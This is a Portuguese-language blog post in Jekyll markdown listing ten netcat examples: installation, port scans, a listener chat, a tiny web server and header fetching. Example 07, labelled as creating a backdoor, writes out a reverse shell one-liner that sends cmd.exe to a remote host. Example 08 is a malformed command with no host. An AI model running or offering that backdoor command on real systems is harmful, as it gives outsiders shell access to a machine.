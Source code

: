 ```yaml
---
layout: post
title: "10 Exemplos do Comando Netcat (nc)"
date: 2021-04-12 13:41:43
image: '/assets/img/comandos/netcat.jpg'
description: 'Uma ferramenta de comando de rede, simples e poderosa!'
icon: 'ion:terminal-sharp'
iconname: 'netcat'
tags:
- redes
- webhacker
---
```


![10 Exemplos do Comando Netcat (nc)](/assets/img/comandos/netcat.jpg)

O [Netcat](https://nc110.sourceforge.io/) é uma ferramenta de rede, disponível para sistemas operacionais [Unix](https://terminalroot.com.br/tags#unix), [Linux](https://terminalroot.com.br/tags#linux), [Microsoft Windows](https://terminalroot.com.br/tags#windows) e [Macintosh](https://terminalroot.com.br/tags#windows) que permite, por intermédio de comandos e com sintaxe muito sensível, abrir portas [TCP/UDP](https://terminalroot.com.br/tags#redes) e HOST. Permite forçar conexões UDP/TCP (útil para realizar rastreamento de portas ou realizar transferências de arquivos bit a bit entequipamentos). 

# Instalação
Para [Gentoo](https://terminalroot.com.br/tags#gentoo)/[Funtoo](https://terminalroot.com.br/tags#funtoo) basta rodar o comando:
{% highlight bash %}
sudo emerge --ask net-analyzer/netcat
{% endhighlight %}
> Alternativamente você pode usar a versão do [OpenBSD](https://terminalroot.com.br/tags#openbsd):

{% highlight bash %}
sudo emerge --ask net-analyzer/openbsd-netcat
{% endhighlight %}

<!-- QUADRADO -->
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
style="display:inline-block;width:336px;height:280px"
data-ad-client="ca-pub-2838251107855362"
data-ad-slot="5351066970"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


Para sistemas baseados em *APT* [Debian](https://terminalroot.com.br/tags#debia), [Ubuntu](https://terminalroot.com.br/tags#ubuntu), [Linux Mint](https://terminalroot.com.br/tags#mint) e derivados, basta rodar:
{% highlight bash %}
sudo apt install netcat
{% endhighlight %}

E entre outras distros:
{% highlight bash %}
sudo dnf install nc # Fedora, RHEL, ..
sudo pacman -S netcat # Arch, Manjaro, ...
{% endhighlight %}

# Exemplos de uso

### 01. Verificar se uma porta está aberta
> Nesse caso a porta **80**

{% highlight bash %}
nc -z -v 192.168.1.1 80

# Exemplo de saída:
192.168.1.1: inverse host lookup failed: 
(UNKNOWN) [192.168.1.1] 80 (http) open
{% endhighlight %}

---

### 02. Verificando se uma range de portas estão abertas
> Nesse caso da porta 20 à 80

{% highlight bash %}
nc -z -v 10.10.8.8 20-80

# Exemplo de saída
nc: connect to 10.10.8.8 port 20 (tcp) failed: Connection refused
nc: connect to 10.10.8.8 port 21 (tcp) failed: Connection refused
Connection to 10.10.8.8 22 port [tcp/ssh] succeeded!
nc: connect to 10.10.8.8 port 23 (tcp) failed: Connection refused
...
nc: connect to 10.10.8.8 port 79 (tcp) failed: Connection refused
Connection to 10.10.8.8 80 port [tcp/http] succeeded!
{% endhighlight %}

---

### 03. Enviando um chat em uma determinada porta
{% highlight bash %}
nc -l -vv 192.168.1.105 -p 5000

192.168.1.105: inverse host lookup failed: 
listening on [any] 5000 ...
Iniciando um chat
Está funcionando ...
^C sent 0, rcvd 0

{% endhighlight %}

<!-- RETANGULO LARGO 2 -->
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
style="display:block; text-align:center;"
data-ad-layout="in-article"
data-ad-format="fluid"
data-ad-client="ca-pub-2838251107855362"
data-ad-slot="8549252987"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

### 04. Criando um básico servidor web
+ Crie uma página web exemplo
{% highlight bash %}
echo '<h1>Servidor funfando de boa na porta 8080</h1>' >> index.html
{% endhighlight %}

+ Loop para o netcat
{% highlight bash %}
 while : ; do ( echo -ne "HTTP/1.1 200 OK\r\n" ; cat index.html; ) | nc -l -p 8080 ; done
{% endhighlight %}

Acesse: <http://localhost:8080>, irá aparecer sua página e após acessar o endereço a saída será enviada ao prompt:
{% highlight bash %}
GET / HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
{% endhighlight %}
> Derrube a conexão teclando: **Ctrl + Z** e em seguida mate o processo somente resetando o terminal: `reset`.

---

### 05. Criando um socket
{% highlight bash %}
nc -l /var/tmp/socket &
{% endhighlight %}

---

### 06. Obtendo cabeçalho de conexão de um endereço
{% highlight bash %}
printf "GET / HTTP/1.0\r\n\r\n" | nc google.com 80 | head -n 14
{% endhighlight %}

Saída:
{% highlight bash %}
HTTP/1.0 200 OK
Date: Mon, 12 Apr 2021 17:40:46 GMT
Expires: -1
Cache-Control: private, max-age=0
Content-Type: text/html; charset=ISO-8859-1
P3P: CP="This is not a P3P policy! See g.co/p3phelp for more info."
Server: gws
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN
Set-Cookie: 1P_JAR=2021-04-12-17; expires=Wed, 12-May-2021 17:40:46 GMT; path=/; domain=.google.com; Secure
Set-Cookie: NID=213=l9jwYfBM; expires=Tue, 12-Oct-2021 17:40:46 GMT; path=/; domain=.google.com; HttpOnly
Accept-Ranges: none
Vary: Accept-Encoding
{% endhighlight %}

---

### 07. Criando um backdoor
{% highlight bash %}
nc 192.168.1.199 3000 -e cmd.exe
{% endhighlight %}

---

<!-- MINI ANÚNCIO -->
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- Games Root -->
<ins class="adsbygoogle"
style="display:inline-block;width:730px;height:95px"
data-ad-client="ca-pub-2838251107855362"
data-ad-slot="5351066970"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


### 08. Rodando um script
{% highlight bash %}
nc  8080 -c script.sh
{% endhighlight %}

---

### 09. Obtendo ajuda
{% highlight bash %}
nc -h

[v1.10]
connect to somewhere:	nc [-options] hostname port[s] [ports] ...
listen for inbound:	nc -l -p port [-options] [hostname] [port]
options:
	-c shell commands	as `-e'; use /bin/sh to exec [dangerous!!]
	-e filename		program to exec after connect [dangerous!!]
	-4			Use IPv4 (default)
	-6			Use IPv6
	-b			allow broadcasts
	-g gateway		source-routing hop point[s], up to 8
	-G num			source-routing pointer: 4, 8, 12, ...
	-h			this cruft
	-i secs			delay interval for lines sent, ports scanned
	-l			listen mode, for inbound connects
	-n			numeric-only IP addresses, no DNS
	-o file			hex dump of traffic
	-p port			local port number
	-q secs			quit after EOF on stdin and delay of secs
	-r			randomize local and remote ports
	-s addr			local source address
	-t			answer TELNET negotiation
	-u			UDP mode
	-v			verbose [use twice to be more verbose]
	-w secs			timeout for connects and final net reads
	-z			zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive]
{% endhighlight %}

---

### 10. Lendo o manual
{% highlight bash %}
man nc

netcat is a simple unix utility which reads and        /\_/\
writes data across network connections, using TCP     / 0 0 \
or UDP protocol. It is designed to be a reliable     ====v====
"back-end" tool that can be used directly or easily   \  W  /
driven by other programs and scripts.  At the same    |     |     _
time, it is a feature-rich network debugging and      / ___ \    /
exploration tool, since it can create almost any     / /   \ \  |
kind of connection you would need and has several   (((-----)))-'
interesting built-in capabilities.  Netcat, or "nc"  /
as the actual program is named, should have been    (      ___
supplied long ago as another one of those cryptic    \__.=|___E
but standard Unix tools.                                     /

{% endhighlight %}


